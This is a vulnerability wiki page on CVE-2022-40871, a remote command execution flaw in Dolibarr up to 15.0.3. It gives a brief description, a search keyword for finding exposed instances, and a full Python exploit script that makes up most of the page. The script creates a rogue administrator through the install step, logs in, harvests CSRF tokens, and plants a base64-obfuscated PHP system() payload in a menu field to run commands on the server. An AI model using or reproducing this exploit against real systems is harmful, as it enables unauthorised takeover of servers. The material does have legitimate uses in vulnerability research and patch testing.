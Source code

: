 # Dolibarr edit.php remote command execution vulnerability CVE-2022-40871

## Vulnerability Description

Dolibarr edit.php has a remote command execution vulnerability. After an attacker creates an administrator through a logical vulnerability, he can obtain server permissions through a background vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Dolibarr <= 15.0.3</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Dolibarr" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1666106233621-1f21de71-8afd-4fef-9b15-65324fd1f47c.png)

Use POC to create a user for command execution

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20221019002357380.png)

## Vulnerability POC

<a-alert type="success" message="https://github.com/youncyb/dolibarr-rce" description="" showIcon>
</a-alert>
<br/>

```java
import requests
from requests.packages import urllib3
import time
import random
import sys
import re


sess = requests.Session()
pcre = re.compile(r'name=\"token\"\s+value=\"([^>]+)\"\s*[/]*>')
def request(method, url, headers=None, data=None, proxies=None, timeout=30):
    i = 1
    urllib3.disable_warnings()
    resp = None
    proxies = proxies
    while i <= 3:
        try:
            resp = sess.request(method=method, url=url, headers=headers,
                                    data=data, proxies=proxies, timeout=timeout, verify=False)
            break
        except requests.exceptions.TooManyRedirects:
            break
        except requests.exceptions.ConnectionError as e:
            time.sleep(2 + random.randint(1, 4))
        except (requests.exceptions.ConnectTimeout, requests.exceptions.ReadTimeout, requests.exceptions.Timeout):
            time.sleep(2 + random.randint(1, 4))
        finally:
            i += 1
    if i > 3:
        print('[-]Error retrieve with max retries: {}'.format(url))
    return resp

def exp():
    if len(sys.argv) < 2:
        sys.exit('Usage: python3 {} http://xxxxx.com/'.format(sys.argv[0]))
    if sys.argv[1][-1] == '/':
        base = sys.argv[1].rsplit('/', 1)[0]
    else:
        base = sys.argv[1]
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
    }
    #proxies = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
    proxies = None
    res = request('GET', base, headers=headers, proxies=proxies)
    err_flag = 1
    if res:
        print('[*] Attempt to add admin.')
        base = res.url.rsplit('/', 1)[0]
        add_admin_url = '{}/install/step5.php'.format(base)
        data = {
            'action': 'set',
            'login': 'testadmins',
            'pass': 'testadmins',
            'pass_verif': 'testadmins',
            'selectlang': 'auto'
        }
        headers['Content-Type'] = 'application/x-www-form-urlencoded'
        res = request('POST', add_admin_url, headers=headers, data=data, proxies=proxies)
        if res and 'created successfully' in res.text or ('exists' in res.text and 'Email  already exists' not in res.text):
            csrf_token_url = '{}/index.php'.format(base)
            res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
            if res:
                print('[*] Attempt to login.')
                try:
                    csrf_token = pcre.findall(res.text)[0]
                except:
                    csrf_token = ''
                login_url = '{}/index.php?mainmenu=home'.format(base)
                headers['Referer'] = csrf_token_url
                data = {
                    'token':'{}'.format(csrf_token),
                    'actionlogin': 'login',
                    'loginfunction': 'loginfunction',
                    'username': 'testadmins',
                    'password': 'testadmins'
                }
                res = request('POST', login_url, headers=headers, data=data, proxies=proxies)
                if res and res.status_code == 200 and 'logout.php' in res.text:
                    print('[*] Attempt to get csrf token.')
                    csrf_token_url = '{}/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy_menu'.format(base)
                    res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
                    if res:
                        print('[*] Attemp to inset evil data.')
                        try:
                            csrf_token = pcre.findall(res.text)[0]
                        except:
                            csrf_token = ''
                        inset_evil_url = '{}/admin/menus/edit.php'.format(base)
                        data = {
                            'token': '{}'.format(csrf_token),
                            'action': 'add',
                            'menuId': random.randint(10000, 99999),
                            'menu_handler': 'eldy_menu',
                            'user': 2,
                            'type': 1,
                            'titre': 1,
                            'url': 1,
                            'enabled': "1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//" #execute id command，bypass core/lib/function.lib.php limits
                        }
                        res = request('POST', inset_evil_url, headers=headers, data=data, proxies=proxies)
                        if res and res.history[0].status_code == 302:
                            print('[*] Attemp to execute command.')
                            request('GET', '{}/admin/menus/index.php'.format(base), headers=headers, proxies=proxies)
                            time.sleep(3)
                            evil_url = '{}/admin/index.php'.format(base)
                            res = request('GET', evil_url, headers=headers, proxies=proxies)
                            if res and res.status_code == 200 and 'pwned!!!' in res.text:
                                print(res.text[:100])
                                print('[+] vulnrable! {}'.format(base))
                                err_flag = 0
                    
    if err_flag:
        print('[-] {} is not exploitable.'.format(sys.argv[1]))

exp()
```